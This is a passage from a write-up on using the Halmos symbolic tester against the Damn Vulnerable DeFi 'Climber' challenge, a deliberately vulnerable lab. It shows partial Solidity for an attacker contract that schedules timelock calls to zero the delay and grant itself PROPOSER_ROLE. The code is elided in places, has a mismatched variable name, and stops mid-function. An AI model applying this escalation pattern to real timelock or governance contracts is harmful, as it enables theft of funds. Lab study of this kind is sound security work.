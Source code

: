 We can get a complete list of such implemented heuristics by analyzing the regression tests in the Halmos repository. For example, there are tests about:
1. [keccak256()](https://github.com/a16z/halmos/blob/5c5ca39a1ee943ad8c8dc2fe042bdea44413ed69/tests/regression/test/Sha3.t.sol#L7)
2. [Signatures/ecrecover](https://github.com/a16z/halmos/blob/5c5ca39a1ee943ad8c8dc2fe042bdea44413ed69/tests/regression/test/Signature.t.sol)

and other. 

## preload implementation
We will add a preload (like in [selfie](https://github.com/igorganich/damn-vulnerable-defi-halmos/tree/master/test/selfie#symbolicattacker-preload)) to unlock a `PROPOSER_ROLE` privilege and test new scenarios.
```solidity
function check_climber() public checkSolvedByPlayer {
    ...
    attacker.preload();
    attacker.attack();
}
```
```solidity
contract SymbolicAttacker is Test, SymTest {
    ...
    bool is_preload = false;
    ...
    fallback() external payable {
        if (is_preload)
        {
            bytes32 salt = hex"01";
            address[] memory targets = new address[](3);
            uint256[] memory values = new uint256[](3);
            bytes[] memory dataElements = new bytes[](3);
            targets[0] = address(timelock);
            targets[1] = address(timelock);
            targets[2] = address(this);
            values[0] = 0;
            values[1] = 0;
            values[2] = 0;
            dataElements[0] = abi.encodeWithSignature("updateDelay(uint64)", 0);
            dataElements[1] = abi.encodeWithSignature("grantRole(bytes32,address)", PROPOSER_ROLE, address(this));
            dataElements[2] = abi.encodeWithSignature("attacker_fallback_selector()");
            timelock.schedule_preload(targets, values, dataElements, salt);
            return ;
        }
    ...
    }
    ...
    function preload(ClimberTimelock timelock) public {
        vm.assume(msg.sender == address(0xcafe0001)); // Only player can execute it
        is_preload = true;
        timelock = _timelock;
        bytes32 salt = hex"01";
        address[] memory targets = new address[](3);
        uint256[] memory values = new uint256[](3);
        bytes[] memory dataElements = new bytes[](3);
        targets[0] = address(timelock);
        targets[1] = address(timelock);
        targets[2] = address(this);
        values[0] = 0;
        values[1] = 0;
        values[2] = 0;
        dataElements[0] = abi.encodeWithSignature("updateDelay(uint64)", 0);
```